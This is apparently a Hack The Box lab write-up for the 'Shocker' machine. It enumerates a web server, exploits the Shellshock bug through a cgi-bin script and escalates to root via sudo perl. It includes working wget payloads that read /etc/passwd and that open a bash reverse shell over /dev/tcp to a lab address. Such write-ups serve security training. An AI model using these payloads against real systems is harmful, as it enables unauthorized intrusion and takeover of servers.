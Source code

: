 ```yaml
---
title: Shocker
date: 2023-02-04 09:45:47 +07:00
modified: 2023-02-04 09:45:47 +07:00
tags: [Shellshock, Shocker, Hackthebox, Writeup]
description: Write Up for Hackthebox Machine Shocker
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Shocker/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Cronos</font>

​		3<sup>th</sup> October 2017

​		Machine Author(s): [mrb3n](https://app.hackthebox.com/users/2984)

​		

### Description:

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock
exploit, which affected millions of public-facing servers.

### Difficulty:

`Easy`

# Enumeration

At first, I did a Nmap scan for open ports and services.

`nmap -sC -sV -p- 10.10.1.235 -oG shocker`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.png)

|Ports|Service
|80| Apache httpd 2.4.18 ((Ubuntu))
|2222| OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

I visit the website But there is nothing interesting.

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I start enumerating websites using [FFUF]()

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/FUZZ" -ic`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.1.png)

I found [cgi-bin](). Next I did directory enumaration using common extention.

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/cgi-bin/FUZZ" -e .sh,.php,.html`

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I found [user.sh](). 

![](https://photos.squarezero.dev/file/abir-images/Shocker/3.png)

After opening the file I saw the file is executing in the webserver.

![](https://photos.squarezero.dev/file/abir-images/Shocker/03.png)

# Foothold

After looking for sometime I figureout this is a [shellshock]() vulnerability. 

I found the following artical useful. [Exploit](https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited)

Lets see if we can read `/etc/passwd`.

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/4.png)

After opening the file we can see the commands are being executed. 
![](https://photos.squarezero.dev/file/abir-images/Shocker/5.png)

So, I decided to use a bash reverseshell. And after execution I got a connection back.


`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.37/9000 0>&1" http://10.129.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/6.png)

![](https://photos.squarezero.dev/file/abir-images/Shocker/7.png)

# Privilege Escalation

I check what I can run as sudo. 

![](https://photos.squarezero.dev/file/abir-images/Shocker/8.png)

I can run [perl](). I checked [GTFOBins](https://gtfobins.github.io/) and used following to get root access.



`sudo perl -e 'exec "/bin/bash";'`

![](https://photos.squarezero.dev/file/abir-images/Shocker/9.png)
